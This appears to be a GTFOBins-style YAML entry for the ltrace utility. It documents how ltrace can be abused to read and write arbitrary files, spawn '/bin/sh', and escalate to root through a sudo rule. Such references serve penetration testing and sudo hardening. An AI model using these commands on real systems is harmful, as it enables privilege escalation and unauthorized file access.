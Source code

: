 ```yaml
---
functions:
  file-read:
    - description: The file is parsed as a configuration file and its content is shown as error messages, thus this is not suitable to exfiltrate binary files.
      code: |
        LFILE=file_to_read
        ltrace -F $LFILE /dev/null
  file-write:
    - description: The data to be written appears amid the library function call log, quoted and with special characters escaped in octal notation. The string representation will be truncated, pick a value big enough. More generally, any binary that executes whatever library function call passing arbitrary data can be used in place of `ltrace -F DATA`.
      code: |
        LFILE=file_to_write
        ltrace -s 999 -o $LFILE ltrace -F DATA
  shell:
    - code: ltrace -b -L /bin/sh
  sudo:
    - code: sudo ltrace -b -L /bin/sh
---
```

